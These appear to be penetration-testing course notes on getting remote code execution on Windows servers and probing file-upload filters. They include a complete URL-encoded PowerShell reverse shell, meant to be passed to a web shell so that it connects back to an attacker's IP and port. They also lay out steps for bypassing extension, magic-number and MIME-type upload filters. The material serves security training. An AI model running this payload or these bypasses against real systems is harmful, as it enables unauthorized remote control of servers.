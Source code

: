 When the target is Windows, it is often easiest to obtain RCE using a web shell, or by using msfvenom to generate a reverse/bind shell in the language of the server. 
With the former method, obtaining RCE is often done with a URL Encoded Powershell Reverse Shell. This would be copied into the URL as the cmd argument:

powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22

This is the same shell we encountered in Task 8, however, it has been URL encoded to be used safely in a GET parameter. 
Remember that the IP and Port (bold, towards end of the top line) will still need to be changed in the above code.


Upload vulns:

Target Scan Methodology 

We'll look at this as a step-by-step process. Let's say that we've been given a website to perform a security audit on.

The first thing we would do is take a look at the website as a whole. Using browser extensions such as the aforementioned Wappalyzer (or by hand) we would look for indicators of what languages and frameworks the web application might have been built with. Be aware that Wappalyzer is not always 100% accurate. A good start to enumerating this manually would be by making a request to the website and intercepting the response with Burpsuite. Headers such as server or x-powered-by can be used to gain information about the server. We would also be looking for vectors of attack, like, for example, an upload page.
Having found an upload page, we would then aim to inspect it further. Looking at the source code for client-side scripts to determine if there are any client-side filters to bypass would be a good thing to start with, as this is completely in our control.
We would then attempt a completely innocent file upload. From here we would look to see how our file is accessed. In other words, can we access it directly in an uploads folder? Is it embedded in a page somewhere? What's the naming scheme of the website? This is where tools such as Gobuster might come in if the location is not immediately obvious. This step is extremely important as it not only improves our knowledge of the virtual landscape we're attacking, it also gives us a baseline "accepted" file which we can base further testing on.
An important Gobuster switch here is the -x switch, which can be used to look for files with specific extensions. For example, if you added -x php,txt,html to your Gobuster command, the tool would append .php, .txt, and .html to each word in the selected wordlist, one at a time. This can be very useful if you've managed to upload a payload and the server is changing the name of uploaded files.
Having ascertained how and where our uploaded files can be accessed, we would then attempt a malicious file upload, bypassing any client-side filters we found in step two. We would expect our upload to be stopped by a server side filter, but the error message that it gives us can be extremely useful in determining our next steps.
Assuming that our malicious file upload has been stopped by the server, here are some ways to ascertain what kind of server-side filter may be in place:

If you can successfully upload a file with a totally invalid file extension (e.g. testingimage.invalidfileextension) then the chances are that the server is using an extension blacklist to filter out executable files. If this upload fails then any extension filter will be operating on a whitelist.
Try re-uploading your originally accepted innocent file, but this time change the magic number of the file to be something that you would expect to be filtered. If the upload fails then you know that the server is using a magic number based filter.
As with the previous point, try to upload your innocent file, but intercept the request with Burpsuite and change the MIME type of the upload to something that you would expect to be filtered. If the upload fails then you know that the server is filtering based on MIME types.